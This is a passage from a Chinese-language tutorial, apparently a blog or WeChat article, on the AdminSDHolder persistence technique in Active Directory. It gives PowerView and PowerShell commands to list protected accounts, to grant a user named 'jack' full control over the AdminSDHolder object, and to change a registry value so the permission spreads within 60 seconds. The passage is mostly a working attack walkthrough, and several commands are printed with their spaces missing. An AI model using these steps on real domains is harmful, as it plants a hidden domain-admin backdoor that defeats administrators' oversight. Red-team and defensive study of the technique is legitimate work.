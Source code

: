 3.1 使用 powerview 查询
-------------------

查询 ad 保护的域的用户

```
Get-NetUser-AdminCount|select samaccountname
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouibv6HFgEibXjjPKFXIKduWSArmVdsy7VWBKUrv3iah34H89Nh0vHCUUpN9Akbo8kAxIiaVnxaEoX0e2w/640?wx_fmt=png)

查询域中受 ad 保护的所有组

```
Get-netgroup -AdminCount| select name
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouibv6HFgEibXjjPKFXIKduWSAl1wyfOrg24ic33W4zLDvxJribZOhTpaAY0sIYvUDCb1SrLEgU82UsxOw/640?wx_fmt=png)

3.2 使用 ActiveDirectory
----------------------

查询 ad 保护的域中所有的用户和组

```
Import-ModuleActiveDirectoryGet-ADObject-LDAPFilter"(&(admincount=1)(|(objectcategory=person)(objectcategory=group)))"|select name
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouibv6HFgEibXjjPKFXIKduWSAlQQHMmQSG4NK0eB1wpVe1w5icSeJ4vE1I26zwOtlicdpjxRplbJcYTUw/640?wx_fmt=png)

3.3 添加用户
--------

添加 jack 用户对其有完全控制权限。

```
Add-DomainObjectAcl-TargetIdentityAdminSDHolder-PrincipalIdentity jack -RightsAll
```

然后验证下，这里的 sid 为 jack 用户的。

```
Get-DomainObjectAcl adminsdholder | ?{$_.SecurityIdentifier-match "S-1-5-21-151877218-3666268517-4145415712-1106"} | select objectdn,ActiveDirectoryRights |sort -Unique
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouibv6HFgEibXjjPKFXIKduWSAYooyWDyXal5Po1A4ohtXlXe8fTDIwa52DicKaTzThvyicPyUeAyf6mSg/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouibv6HFgEibXjjPKFXIKduWSAzhNhSCQyAicpzuAgkCwvOCAzduV6VYgvy3F4uJ8ACuytl0SNtvhVc8w/640?wx_fmt=png)

默认会等待 60 分钟，可以通过修改注册表来设置为 60 秒后触发。

```
reg add hklm\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v AdminSDProtectFrequency/t REG_DWORD /d 1/f
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouibv6HFgEibXjjPKFXIKduWSAyvnCnxudYgV4Yh6IZiavCjicdNLtMXjxfLNJibVDUbYayKhk759S3K4Ig/640?wx_fmt=png)

3.4 恢复
------
